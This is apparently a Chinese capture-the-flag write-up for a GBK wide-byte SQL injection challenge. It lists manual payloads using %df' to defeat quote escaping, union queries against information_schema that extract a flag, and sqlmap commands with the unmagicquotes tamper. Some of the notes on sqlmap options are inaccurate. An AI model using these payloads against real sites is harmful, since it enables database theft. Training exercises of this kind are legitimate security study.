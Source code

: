# 宽字节注入

## 题目

> ### sql injection 3
>
> http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1
>
> your sql:select id,title from news where id = '1' 
>
> Hello World!OVO 

## 解答思路

- 判断出宽字符注入点，并且证实存在注入
- 进行正常注入流程


## 解题步骤

- 手工注入

  1. 判断注入点：加单引号，“ ' ”，发现被\转义了 
  2. 使用`%df'`宽字节注入，报错了 
  3. 输入`id=1%df' and 1=1 %23` ，显示正常
  4. 输入`id=1%df' and 1=2 %23` ，未显示任何信息，说明找到了注入点，接下来进行常规注入 
  5. 判断列数：`id=1%df' order by 2 %23`，显示正常，当`%df' order by 3 %23`时，报错，确定为2列 
  6. union联合查询，`id=1%df' and 1=2 union select 1,2 %23` 
  7. 获取当前数据库，`id=1%df' and 1=2 union select 1,database() %23` 
  8. 获取数据库名，`id=1%df' and 1=2 union select 1,group_concat(table_name) from information_schema.TABLES where table_schema=0x7361652d6368696e616c6f766572 %23`，这里数据库名使用16进制
  9. 发现ctf1-4表，随便查看一个，查看ctf4表的列明，`id=1%df' and 1=2 union select 1,group_concat(column_name) from information_schema.COLUMNS where table_name=0x63746634 %23`，发现存在id，flag两列，我们直接查询flag的值
  10. 获取flag值，`id=1%df' and 1=2 union select 1,flag from ctf4 %23`，得到flag 

  PS: 需要添加`and 1=2`,将第一个返回结果置为空，才能显示出union查询的结果

- sqlmap注入

   1. 在id后添加`%df`来实现注入

      ```shell
      sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1%df%27" --search -C flag
      --level 3 --risk 1 --thread 10
      ```

      > --threads 10 //如果你玩过 msfconsole的话会对这个很熟悉 sqlmap线程最高设置为10--level 3 //sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。最高可到5--risk 3 // 执行测试的风险（0-3，默认为1）risk越高，越慢但是越安全----search //后面跟参数 -D -T -C 搜索列（S），表（S）和或数据库名称（S） 如果你脑子够聪明，应该知道库列表名中可能会有ctf,flag等字样，结果有时候题目就是这么耿直对吧？ 

   2. 直接使用tamper

      > unmagicquotes 主要用在宽字节注入，绕过magic_quotes/addslashes 

      ```shell
      sqlmap -u "http://chinalover.sinaapp.com/SQL-GBK/index.php?id=1" --search -C flag
      --level 3 --risk 1 --thread 10 --tamper="unmagicquotes"
      ```

      

## 漏洞挖掘思路

- todo

## 自动化解析

- TODO

- 判断题目特征：`web` `php`
- 设定题目难度等级`level`为simple
- 提交相应符合要求的字符串


